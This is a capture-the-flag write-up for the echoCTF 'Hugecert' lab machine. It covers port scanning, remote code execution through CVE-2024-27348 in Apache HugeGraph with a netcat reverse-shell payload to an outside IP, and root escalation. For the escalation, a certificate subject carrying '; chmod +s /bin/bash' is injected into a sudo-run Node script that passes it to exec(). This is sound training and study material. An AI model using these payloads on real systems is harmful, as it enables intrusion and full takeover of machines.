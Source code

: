 ```yaml
---
description: >-
  Hugecert echoCTF Machine
title: Hugecert (Intermediate)                # Add title here
date: 2025-02-24 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Hugecert.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.14.35
```

### Content

- RCE in Apache HugeGraph Server
- Command Injection in certificate subject

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.14.35
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.14.35 ()     Status: Up
Host: 10.0.14.35 ()     Ports: 22/open/tcp//ssh///, 8080/open/tcp//http-proxy///
```
Services and Versions running:
```bash
nmap -p22,8080 -sCV -n -Pn -vvvv -oN targeted 10.0.14.35
Nmap scan report for 10.0.14.35
Host is up, received user-set (0.16s latency).
Scanned at 2025-02-24 16:33:28 EST for 176s

PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 79:1a:ac:bf:e9:92:f5:48:99:de:b0:17:62:e2:d1:9b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMfiQFI8we9T18DY6g3gb0FqxCUbdooHv8KHLGRUH7Enh/G711xtlPDbf5kJCqIutfOTAGEYSQqhZwgjCauHsXE=
|   256 38:1a:ab:2e:79:05:5a:01:88:be:f9:a0:cc:b9:ae:33 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICmdpjyxzBB3yNMwoIPp1kXeb/LaVj/tS8SBu+hcoR1M
8080/tcp open  http-proxy syn-ack ttl 63
|_http-title: Site doesn't have a title (application/json).
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
| fingerprint-strings:
```

### Exploitation

There is a Web Service running on port 8080 called `hugegraph v1.2.0` looking for exploits on it, we identified the following [CVE-2024-27348](https://github.com/kljunowsky/CVE-2024-27348) which is an OS Command Injection vulnerability, after downloading the git and execute it as it recommends, we have a way to execute commands:
```bash
python3 CVE-2024-27348.py -t http://10.0.14.35:8080 -c "nc -e /bin/bash 10.10.5.122 1234"
Proof of Concept exploit for CVE-2024-27348 Remote Code Execution in Apache HugeGraph Server by kljunowsky
[-] Request failed with status code: 500
[-] http://10.0.14.35:8080 may not be vulnerable
{"exception":"java.io.IOException","message":"error=2, No such file or directory","cause":"[java.io.IOException]"}
[+] Command executed successfully with payload 2
[+] Response:
{"exception":"java.lang.NoSuchFieldException","message":"","cause":"[java.lang.NoSuchFieldException]"}
```
Notice that it won't get any output from the command executed, commands such as `id`, `cat` and so on, will work but won't throw any information.

### Privilege Escalation

For the Privilege Escalation I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
ETSCTF@hugecert:/opt/node/lib/node_modules/certer$ sudo -l
Matching Defaults entries for ETSCTF on hugecert:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User ETSCTF may run the following commands on hugecert:
    (ALL : ALL) NOPASSWD: /opt/node/bin/certer
```
Its content is like this:
```bash
#!/opt/node/bin/node
const crypto = require("crypto");
const { exec } = require('child_process');
const fs = require('fs');
var args = process.argv.slice(2);
if(args.length===0)
{
  console.log("Provide a certificate file to process");
  process.exit(1);
}
cert = new crypto.X509Certificate(fs.readFileSync(args[0]).toString());
subj=cert.subject.replace(/\\/g, '').replace(/CN=/g,'');
exec(`mkdir /certs/${subj}`);
```
This makes a vulnerability on the `mkdir` command because is reading whatever is in the certificate subjet and then creating a folder with its name, so we can exploit this by adding malicious code to the subjet of a malicious certificate, to do so, we need to first create a key:

```bash
openssl genpkey -algorithm RSA -out malicious.key
```
Then generate a file with the subject, I called mine `malicious.conf` and this is the content:
```bash
[ req ]
default_bits        = 2048
default_md          = sha256
prompt              = no
distinguished_name  = req_distinguished_name

[ req_distinguished_name ]
CN = ; chmod +s /bin/bash; #
```
Generate the Certificate Signing Request (CSR):
```bash
openssl req -new -key malicious.key -out malicious.csr -config malicious.conf

```
Use the CSR to create a self-signed certificate:
```bash
openssl x509 -req -in malicious.csr -signkey malicious.key -out malicious.crt -days 365

Certificate request self-signature ok
subject=CN=; chmod +s /bin/bash;
```
Read the content of the certificate, to be sure:
```bash
openssl x509 -in malicious.crt -text -noout                                  
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number:
            05:ed:21:55:1c:8c:e9:ec:a1:80:25:e7:45:76:3c:fe:46:7c:4c:9e
        Signature Algorithm: sha256WithRSAEncryption
        Issuer: CN=; chmod +s /bin/bash;
        Validity
            Not Before: Feb 24 21:27:23 2025 GMT
            Not After : Feb 24 21:27:23 2026 GMT
        Subject: CN=; chmod +s /bin/bash;
        Subject Public Key Info
```
And then run the sudo command:
```bash
ETSCTF@hugecert:/tmp$ sudo /opt/node/bin/certer malicious.crt 
ETSCTF@hugecert:/tmp$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23  2023 /bin/bash
```
AND WE ARE INSIDEEE!!!

### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

- No credentials we found

### Notes

- Always check for software versions to find any public exploit.

### References

- [CVE-2024-27348](https://github.com/kljunowsky/CVE-2024-27348)


